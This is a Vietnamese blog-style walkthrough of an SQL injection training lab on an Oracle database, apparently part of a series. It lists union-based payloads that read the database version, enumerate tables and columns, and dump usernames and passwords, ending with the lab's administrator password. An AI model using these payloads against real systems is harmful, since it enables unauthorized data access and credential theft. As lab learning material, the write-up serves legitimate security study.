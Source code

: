 Lại là Lâm đây

Xin chào các bạn đã trở lại series này hôm nay lại là bài SQLi

++ Tấn công tiêm nhiễm SQL, liệt kê nội dung cơ sở dữ liệu trên Oracle vẫn là Oracle bắt đầu nào
![Alt text](image-13.png)
Đề bài yêu cầu như lab5 và thay vì Potgres thì bây giờ là Oracle

 Giao diện bây giờ sẽ là như này:
![Alt text](image-14.png)
sử dụng payload này vì Db query ra 2 cột nên cỏ vể là dùng
                                         ' UNION SELECT BANNER,NULL FROM v$version--

Vâng nó đã hoạt động ![Alt text](image-15.png)
Tiếp theo đó là list column nó ra với tất cả kiến thức của bạn:)) còn tôi thì search thôi 
![Alt text](image-16.png)
                                        filter?category=Gifts%27%20UNION%20SELECT%20table_name,NULL%20FROM%20all_tables--
 sẽ trả ra rất nhiều table mà liên quan đến admintrator thì chỉ có user thôi theo kinh nghiệm code của tôi
 
 ![Alt text](image-17.png) có vẻ như nó đây rồi bây giờ thì việc của bạn là list colums trong table USERS_CDFZIO
 tôi sẽ sử dụng câu lệnh bypass này :
                                        ' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_CDFZIO'--
![Alt text](image-18.png)
chắc chắn là đúng hướng rồi bây giờ thì lấy ra username và passwd thôi 
                                        %27%20UNION%20SELECT%20USERNAME_IYSSEC,PASSWORD_GRNRSJ%20FROM%20USERS_CDFZIO--
nó Url encode rồi nên cũng không sao bạn tự đọc nhé và thành công
![Alt text](image-19.png)
password của administrator là 69zqi08frexxhxhgos71 thực ra tôi code python brute force cũng được nhưng mà sẽ mấy mấy ngày đấy:(((
                                        chúc bạn thành công Author : l3mh0cr3d